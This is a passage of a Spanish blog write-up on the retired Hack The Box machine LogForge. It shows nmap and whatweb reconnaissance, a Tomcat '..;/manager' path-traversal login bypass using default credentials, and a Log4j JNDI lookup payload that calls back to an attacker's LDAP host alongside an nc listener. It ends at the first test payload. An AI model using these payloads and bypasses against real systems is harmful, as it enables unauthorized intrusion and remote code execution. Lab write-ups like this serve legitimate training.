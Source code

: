 ```yaml
---
layout: post
title:  "Maquina Retirada LogForge de Hack The Box (Necesario VIP)"
categories: "HTB"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada LOGFORGE que presenta la famosa Vuln Log4j
tags: HTB, Log4j, Tomcat, LDAP Injection, Ysoserial, RCE, JNDI, Web Hacking, Maquinas Retiradas, Writeup
---
```


# LogForge Log4j - Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.11.138       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
$" nmap -sC -sV -p -oN target 10.10.11.138
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ea:84:21:a3:22:4a:7d:f9:b5:25:51:79:83:a4:f5:f2 (RSA)
|   256 b8:39:9e:f4:88:be:aa:01:73:2d:10:fb:44:7f:84:61 (ECDSA)
|_  256 22:21:e9:f4:85:90:87:45:16:1f:73:36:41:ee:3b:32 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Ultimate Hacking Championship
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Lanzamos la herramienta Whatweb
```bash
http://10.10.11.138 [200 OK] Apache[2.4.41], Cookies[JSESSIONID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], HttpOnly[JSESSIONID], IP[10.10.11.138], Java, Title[Ultimate Hacking Championship]
```
Hechamos un vistazo a web.

Encontramos un Tomcat Corriendo.. 
```bash
Hacemos uso de la vulnerabilidad presente en Tomcat añadiendo este parametro en la Url para saltarnos el login ../..;/manager/

http://10.10.11.138/pepe/..;/manager/html  → password por Default              tomcat:tomcat
```
# Log4j Injection - Tomcat ..;/manager/

```bash
en el campo Applicattion /  → procedemos a hacer la comprobacion ${jndi:ldap://10.10.16.7/LoqueSeaaa} y procedemos a ponernos a la escucha con nc
```
Primer Payload De Comprobacion
